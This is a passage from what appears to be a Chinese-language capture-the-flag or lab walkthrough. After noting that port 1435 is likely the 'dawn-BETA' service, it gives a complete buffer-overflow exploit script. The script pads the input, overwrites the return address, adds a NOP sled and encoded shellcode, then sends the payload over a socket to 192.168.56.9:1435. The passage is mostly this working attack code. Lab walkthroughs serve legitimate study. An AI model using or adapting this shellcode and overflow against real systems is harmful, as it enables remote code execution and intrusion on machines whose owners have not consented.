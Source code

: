     ![image.png](image%20120.png)
    
    想起来还开启着`1435`端口，可能就是`dawn-BETA`
    
4. 把文件传到测试机再试上边的操作（累），得到以下`payload`
    
    ```c
    import socket
    
    buf =  b""
    buf += b"\xbd\xd9\x9c\x86\x5c\xdb\xd7\xd9\x74\x24\xf4\x5e"
    buf += b"\x31\xc9\xb1\x12\x83\xc6\x04\x31\x6e\x0e\x03\xb7"
    buf += b"\x92\x64\xa9\x76\x70\x9f\xb1\x2b\xc5\x33\x5c\xc9"
    buf += b"\x40\x52\x10\xab\x9f\x15\xc2\x6a\x90\x29\x28\x0c"
    buf += b"\x99\x2c\x4b\x64\xda\x67\x93\x7e\xb2\x75\xe4\x7a"
    buf += b"\x90\xf3\x05\x32\x72\x54\x97\x61\xc8\x57\x9e\x64"
    buf += b"\xe3\xd8\xf2\x0e\x92\xf7\x81\xa6\x02\x27\x49\x54"
    buf += b"\xba\xbe\x76\xca\x6f\x48\x99\x5a\x84\x87\xda"                           
                                                        
    a = b'A' * 13 + b'\x77\x17\x58\x34' * 4 + b'\x90' * 32 + buf                                               
    s = socket.socket()                                 
    s.connect(('192.168.56.9',1435))        
    s.send(a)
    s.close()
    ```
    